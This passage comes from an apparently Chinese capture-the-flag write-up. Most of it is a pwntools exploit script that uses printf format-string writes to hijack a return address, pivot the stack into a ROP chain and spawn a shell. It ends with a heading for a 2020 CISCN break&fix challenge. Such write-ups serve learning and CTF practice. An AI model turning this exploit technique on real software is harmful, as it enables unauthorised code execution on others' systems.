 ```


#0 劫持printf的返回地址，并将指针指向返回地址的下一地址，方便后面迁栈
payload = '%' + str(0xA3) + 'c%23$hhn'
payload += '%' + str((stack-0xa3)&amp;0xff) + 'c%18$hhn'
p.send(payload)
sleep(1)
#1-2为迁栈过程，即不断劫持printf的返回地址，并依次将下一地址修改为指向buf上存放rop串处，并且最终将返回地址改为pop rsp，从而执行rop串
#1 
stack = stack+2
payload = '%' + str(0xA3) + 'c%23$hhn'
tmp1 = (stack-0xa3)&amp;0xff
payload += '%' + str(tmp1) + 'c%18$hhn'
tmp2 = tmp1+0xa3
payload += '%' + str((addr1-tmp2)&amp;0xffff) + 'c%13$hn'
p.send(payload)
sleep(1)


#2
stack = stack+2
payload = '%' + str(0x60) + 'c%13$hn'
payload += '%' + str(0xA3-0x60) + 'c%23$hhn'
tmp1 = (stack-0xa3)&amp;0xff
payload += '%' + str(tmp1) + 'c%18$hhn'
p.send(payload)
sleep(1)

#3 继续将返回地址的下一地址修改为指向buf上存放rop串处，并且最终将返回地址改为pop rsp，从而执行rop串
payload = '%13$hn'
payload += '%' + str(pop_rsp&amp;0xffff) + 'c%23$hn'
payload = payload.ljust(0x200,'\x00')
payload += rop
#gdb.attach(p,'b *0x4007C1')
p.send(payload)
sleep(1)
#重新获取shell，并恢复stderr
p.sendline("sh &gt;&amp;2")
p.interactive()
```

### <a class="reference-link" name="2020%20ciscn%20%E7%BA%BF%E4%B8%8B%20break&amp;fix%20:%20anti"></a>2020 ciscn 线下 break&amp;fix : anti

程序主要功能如下：

[![](https://cdn.jsdelivr.net/gh/nuoye-blog/pic/img/20201025204126.png)](https://cdn.jsdelivr.net/gh/nuoye-blog/pic/img/20201025204126.png)

[![](https://cdn.jsdelivr.net/gh/nuoye-blog/pic/img/20201025204120.png)](https://cdn.jsdelivr.net/gh/nuoye-blog/pic/img/20201025204120.png)

